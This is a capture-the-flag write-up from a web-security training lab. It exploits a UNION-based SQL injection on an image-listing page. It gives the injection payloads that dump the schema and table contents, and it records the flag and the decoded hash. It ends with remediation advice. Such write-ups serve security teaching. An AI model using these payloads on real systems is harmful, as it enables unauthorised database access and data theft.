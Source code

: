 # Breach: SQL Injection on Image Listing

## Discovery & Exploit

On a page that displays images, we noticed the same SQL injection vector as seen in the member listing page.

Submitting the input:

``0=0``

revealed several image entries, including:

- **Title**: Hack me ?  
- **URL**: borntosec.ddns.net/images.png

This hinted that a SQL injection might again be possible via UNION SELECT.

We confirmed this using:

``0=0 UNION SELECT table_name, column_name FROM information_schema.columns``

Among the large volume of results, we identified the following structure:

- **Table**: list_images
- **Columns**: id, url, title, comment

We then queried:

``0=0 UNION SELECT url, comment FROM list_images``

This revealed the following:

- **URL**: borntosec.ddns.net/images.png  
- **Comment**: If you read this just use this md5 decode lowercase then sha256 to win this flag ! : `1928e8083cf461a51303633093573c46`

We decoded the MD5 hash to:

``albatroz``

Then hashed it using SHA256 to obtain the final flag:

``f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188``

## Vulnerability Details

This is a classic **UNION-based SQL Injection**. The application fails to sanitize user input and allows SQL code to be appended to queries.

This gives attackers read access to:

- The database schema via `information_schema`
- The contents of internal application tables

References:

- https://owasp.org/www-community/attacks/SQL_Injection
- https://portswigger.net/web-security/sql-injection/union-attacks

## Remediation

1. Use parameterized queries or ORM libraries to prevent direct SQL injection.
2. Sanitize all user input before including it in SQL queries.
3. Limit database access rights to prevent information leakage.
4. Avoid displaying database errors or debug content in production environments.

